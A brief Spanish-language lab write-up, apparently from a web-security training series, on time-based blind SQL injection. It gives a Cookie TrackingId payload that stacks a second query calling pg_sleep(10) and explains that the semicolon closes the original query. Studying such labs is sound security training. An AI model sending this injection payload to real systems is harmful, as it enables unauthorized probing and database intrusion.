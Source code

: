 ```yaml
---
layout: default
title: 14 - Blind SQL injection with time delays
---
```

```r
Cookie: TrackingId='%3b+SELECT+pg_sleep(10)--+-
```
insertamos un `;` para acabar la query y metemos una nueva probando las diferentes formas de dormir que tiene cada base de datos
